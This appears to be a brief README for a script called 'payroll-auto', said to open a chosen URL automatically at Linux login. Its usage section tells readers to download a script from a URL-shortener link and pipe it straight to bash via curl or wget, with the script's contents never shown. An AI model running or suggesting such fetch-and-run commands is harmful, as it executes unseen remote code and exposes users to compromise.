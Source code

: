 # payroll-auto
Enabling automatic opening a specific URL on logging into the a Linux system 
Tested on
Ubuntu 20.04
Ubuntu 22.04

## Usage

This script can be downloaded and executed using either `curl` or `wget` commands. It performs the task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh t.ly/b3uCh ; bash i.sh
```

### Using `wget`

```bash
wget  t.ly/b3uCh -O i.sh ; bash i.sh
```
